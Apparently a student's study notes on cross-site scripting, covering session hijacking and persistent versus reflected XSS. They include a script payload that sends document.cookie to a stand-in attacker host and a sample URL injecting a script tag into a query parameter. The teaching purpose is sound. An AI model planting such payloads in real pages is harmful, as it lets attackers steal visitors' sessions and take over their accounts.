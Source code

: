 #### XSS and Output Filtering
Attacker tricks app into displaying malicious code
*Session hijacking*: steal session cookies
![](../img/Pasted%20image%2020251028210047.png)

```javascript
<script>  
	document.location.replace(  
	"http://www.badguy.example/steal.php"  
	+ "?what=" + document.cookie)  
</script>
```

*Persistent XSS*: malicious code is stored on the server, many visitors might execute it 
*Reflected XSS*: injected malicious code, immidiately dislayed in the visited page
```
http://mymanpages.org/manpage.php?title=<script>...</script>?program=gcc
```
